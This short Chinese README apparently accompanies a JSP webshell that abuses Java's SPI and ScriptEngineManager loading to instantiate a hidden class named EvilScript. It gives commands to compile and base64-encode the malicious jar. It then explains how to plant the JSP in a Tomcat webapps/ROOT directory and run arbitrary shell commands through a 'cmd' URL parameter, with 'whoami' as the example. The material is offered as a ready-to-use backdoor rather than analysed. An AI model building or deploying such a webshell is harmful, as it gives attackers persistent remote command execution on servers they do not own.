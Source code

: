 ### SPI机制的ScriptEngineManager自动加载实例化JSP WebShell

编译SPI jar：
```
javac EvilScript.java

jar -cvf evil.jar META-INF EvilScript.class

cat evil.jar|base64
```

使用：
```
ps:若要修改jar逻辑，修改后按照上面编译的方式得到base64 jar数据替换jsp文件中的base64数据

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问10.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/10.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```